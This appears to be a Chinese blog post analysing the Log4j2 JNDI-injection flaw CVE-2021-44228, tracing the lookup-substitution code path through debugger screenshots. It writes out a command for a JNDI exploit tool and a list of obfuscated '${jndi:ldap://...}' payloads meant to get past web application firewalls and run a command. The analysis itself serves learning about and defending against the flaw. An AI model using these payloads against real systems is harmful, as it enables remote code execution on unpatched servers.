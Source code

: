 # Log4j2

## 简介

Apache Log4j2是一个基于Java的日志记录工具。该工具重写了Log4j框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。

## CVE-2021-44228

`影响版本`：Apache Log4j 2.x <= 2.15.0-rc1

## 分析

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc.exe -a 127.0.0.1`

Log4j2 使用 `org.apache.logging.log4j.core.pattern.MessagePatternConverter#format` 来对日志消息进行处理。这也是触发漏洞的"起始点（应该可以这么说吧）"。
![image-20220905220313157](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052203257.png)

跟进replace
![image-20220905220408090](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052204156.png)

跟进substitute。
这里设置了一些定值。例如：`${`、`}`、`&`、`:-`
![image-20220905220818893](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052208934.png)

![image-20220905221055216](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052210253.png)

再获取到${}中间的值后，还会继续进行substitute判断取${}。（这里可以通过构造绕过waf!!）
接着会来到这里。
![image-20220905221558859](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052215904.png)

随后也就来到了触发点！![image-20220905221643333](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052216403.png)

## 恶意构造绕过WAF

一些常见的绕过payload（网上搜集的）

```
${${a:-j}ndi:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${a:-j}n${::-d}i:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:jn}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}di:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
${${lower:${upper:jn}}${::-di}:ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtbmEgQ2FsY3VsYXRvcgo=}
```

可用第一种尝试一下。
在上面所说判断`}`之前还会进行${进行判断，如果判断到了会重新判断`}`
![image-20220905222158414](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052221499.png)

最终获取到如下字符串，并且继续进行substitute
![image-20220905222822602](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052228658.png)

然后处理步骤相似，最后得到字符串。![image-20220905222959523](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052229567.png)

继续跟进substitute
来到这里。判断是否含有`:\-`
![image-20220905223226847](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052232891.png)

然后进入。
判断是否含有`:-`
![image-20220905223643081](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052236115.png)

当判断到就break跳出循环。![image-20220905223936645](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052239700.png)

此时priorVariables这个list集合含有2个参数。![image-20220905224047188](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052240210.png)

接下来来到触发点，此时的varname为a，肯定不能完成触发。s
![image-20220905224126250](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052241281.png)

继续向下执行但是发现replace，跟进看看。

![image-20220905225932052](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052259073.png)

发现会进行替换。变成这种正常样貌。![image-20220905230304228](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209052303302.png)

后续不在重复了。

## Log4j rc1 Bypasss

听说再mac上才能弹出计算器。（自己看大师傅的博客，发现这个洞很鸡肋，并且找不到对应的pom.xml）先放过了。
